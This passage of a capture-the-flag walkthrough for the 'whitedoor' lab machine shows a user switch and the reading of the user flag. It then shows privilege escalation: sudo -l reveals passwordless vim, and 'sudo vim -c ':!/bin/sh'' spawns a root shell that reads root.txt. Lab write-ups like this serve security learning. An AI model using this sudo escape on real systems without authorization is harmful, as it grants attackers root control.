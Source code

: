 ```bash
whiteshell@whitedoor:~$ su Gonzalo
Password:
Gonzalo@whitedoor:/home/whiteshell$ cd ~
Gonzalo@whitedoor:~$ ls 
Desktop  Documents  Downloads  Music  Pictures  Public
Gonzalo@whitedoor:~$ ls D
Desktop/   Documents/ Downloads/ 
Gonzalo@whitedoor:~$ ls Desktop/
.my_secret_hash  user.txt         
Gonzalo@whitedoor:~$ cat Desktop/user.txt 
HERE IS THE USER FLAG
Gonzalo@whitedoor:~$ 

```
Great we have now the user flag! We should now move on to gain more privileges.

## Privilege escalation
Let's check if we can sudo anything with `sudo -l`.
```bash
Gonzalo@whitedoor:~$ sudo -l
Matching Defaults entries for Gonzalo on whitedoor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User Gonzalo may run the following commands on whitedoor:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
Gonzalo@whitedoor:~$ 

```
It looks like we can sudo vim without any password. VIM is used more often in capture the flag machines a privilege esclation. There is a good resource on [GTFObins](https://gtfobins.github.io/gtfobins/vim/#sudo) about privileges escalation with vim. We should use on of the optiosn to gain more privileges on the target.

```bash
Gonzalo@whitedoor:~$ sudo /usr/bin/vim -c ':!/bin/sh'

# 

```
Since a shell is started we can capture as root the last flag. 
```bash
# whoami
root
# hostname
whitedoor
# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:53:e0:e9 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.7/24 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 400sec preferred_lft 400sec
    inet6 fe80::a00:27ff:fe53:e0e9/64 scope link 
       valid_lft forever preferred_lft forever
# cat /root/root.txt
HERE IS THE ROOT FLAG
# 

```